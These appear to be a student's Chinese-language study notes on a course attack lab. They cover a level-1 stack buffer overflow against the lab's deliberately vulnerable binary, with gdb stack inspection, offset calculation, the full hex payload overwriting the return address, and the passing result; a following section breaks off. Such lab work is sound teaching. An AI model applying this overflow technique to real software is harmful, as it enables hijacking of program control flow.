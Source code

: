 # Lab03 attack

标签（空格分隔）： 学习笔记

---

Lab03帮助学生理解缓冲区溢出，感觉要比lab02有用多了

### step1 读题
读题实际上是比较难的一个步骤。可以说大部分时间在理解题目，当题目理解好了，剩下的就不难了。
Hex2raw的意思是将你输入的十六进制数字转化成真正的十六进制
花了几天时间才搞清楚ctarget是无法接受字符串输入的

## 4 Part I: Code Injection Attacks
### 4.1 level 1

这个是最简单的缓冲区溢出，也就是栈溢出，攻击的方式就是直接在ret指令执行之前，替换rsp内存地址处的值为你想要跳转到的函数地址。
我的思路：
想要替换rsp处内存中的值，我们就首先需要找到rsp的值。

    00000000004017a8 <getbuf>:
      4017a8:	48 83 ec 28          	sub    rsp,0x28
      4017ac:	48 89 e7             	mov    rdi,rsp
      4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
      4017b4:	b8 01 00 00 00       	mov    eax,0x1
      4017b9:	48 83 c4 28          	add    rsp,0x28
      4017bd:	c3                   	ret    
      4017be:	90                   	nop
      4017bf:	90                   	nop
      
我们首先找到getbuf函数，使用gdb在0x4017bd处打一个断点。让程序运行到这个位置。查看rsp的值为0x5561dca0.  
进一步查看内存中的值，发现这个栈顶的值为0x0000000000401976。  
就是test函数中  401971:	e8 32 fe ff ff       	call   4017a8 <getbuf> 下面的一个指令的地址  
 401976:	89 c2                	mov    edx,eax

    (gdb) x/4xg 0x5561dca0
    0x5561dca0:     0x0000000000401976      0x0000000000000009
    0x5561dcb0:     0x0000000000401f24      0x0000000000000000

我们只要将输入足够长的字符串，把这个内存地址的值挤掉，变成touch1的函数地址即可。  
在gets函数中的这个指令是存储字符串的

      401a5a:	88 03                	mov    BYTE PTR [rbx],al

rbx的值为0x5561dc78
此处的内存地址中的内容为：

    (gdb) x/6xg 0x5561dc78
    0x5561dc78:     0x0000ab9078563412      0x0000000000000000
    0x5561dc88:     0x0000000000000000      0x0000000000000000
    0x5561dc98:     0x0000000055586000      0x0000000000401976

大概字符串的长度是64*5 bits就是8*5个字节，就能覆盖到0x401976。所以最后答案为

    12 34 56 78 90 ab cd ef ef ef
    12 34 56 78 90 ab cd ef ef ef
    12 34 56 78 90 ab cd ef ef ef
    12 34 56 78 90 ab cd ef ef ef
    c0 17 40 00 00 00 00 00
    

Continuing. Type string:Touch1!: You called touch1() Valid solution for level 1 with target ctarget PASS: Would have posted the following:
    user id bovik
    course  15213-f15
    lab     attacklab
    result  1:PASS:0xffffffff:ctarget:1:12 34 56 78 90 AB CD EF EF EF 12 34 56 78 90 AB CD EF EF EF 12 34 56 78 90 AB CD EF EF EF 12 34 56 78 90 AB CD EF EF EF C0 17 40 00 00 00 00 00  [Inferior 1 (process 11388) exited normally]
    
### 4.2 




